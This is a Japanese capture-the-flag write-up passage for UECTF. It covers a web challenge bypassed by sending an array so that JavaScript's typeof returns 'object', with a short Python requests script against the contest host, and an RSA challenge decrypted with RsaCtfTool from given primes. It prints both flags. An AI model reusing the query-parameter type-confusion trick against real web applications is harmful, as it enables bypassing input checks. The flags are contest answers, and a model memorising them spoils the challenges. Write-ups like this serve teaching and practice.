 GETリクエストのパラメータ `q` の型が `object` の場合のみ、Flagを返すようなWebアプリケーションが題材となった問題でした。

```javascript
if (req.query.q && typeof req.query.q === 'object') {
  res.send(FLAG)
} else {
  res.send('invalid request')
}
```

全く事前知識がなかったので、とりあえず `javascript object` と検索すると、以下のページを見つけることができました。

[https://pisuke-code.com/javascript-get-exact-data-type/:embed:cite]

なんと、JavaScriptの `typeof` では配列等を渡した場合、 `object` としか返されないらしいです。これを利用すれば良いと直感的に理解したので、以下のようなスクリプトを書いて実行してみたところ、Flagが得られました。

```python
import requests

TARGET_URL = 'http://uectf.uec.tokyo:4446'
PAYLOAD = {'q': [1, 2, 3, 4, 5]}

req = requests.get(TARGET_URL, PAYLOAD)
print(req.text)
```

`UECTF{javascript_is_difficult_dee36611556508c702805b45289d0f65}`

# CRYPTO

## RSA (57 solves)

```
RSA暗号でフラグを暗号化してみました！解読してみてください。
I encrypted the flag with the RSA cipher! Please try to decode it.

[output.txt]    [rsa_source.py]
```

`output.txt` に含まれている `p` , `q` , `e` , `cipher text` を [RsaCtfTool](https://github.com/RsaCtfTool/RsaCtfTool) に渡して実行すると、Flagが得られました。

```
$ python3 RsaCtfTool.py --uncipher 40407051770242960331089168574985439308267920244282326945397 -p 1023912815644413192823405424909 -q 996359224633488278278270361951 -e 65537
private argument is not set, the private key will not be displayed, even if recovered.

Results for /tmp/tmpyznhht1g:

Unciphered data :
HEX : 0x55454354467b5253412d69532d566552792d35314d7031657d
INT (big endian) : 535251971441201547690579709091650584058216076608475543725437
INT (little endian) : 787118965001959771733939931024213066609133944657257179596117
utf-8 : UECTF{RSA-iS-VeRy-51Mp1e}
STR : b'UECTF{RSA-iS-VeRy-51Mp1e}'
HEX : 0x55454354467b5253412d69532d566552792d35314d7031657d
INT (big endian) : 535251971441201547690579709091650584058216076608475543725437
INT (little endian) : 787118965001959771733939931024213066609133944657257179596117
utf-8 : UECTF{RSA-iS-VeRy-51Mp1e}
STR : b'UECTF{RSA-iS-VeRy-51Mp1e}'
```
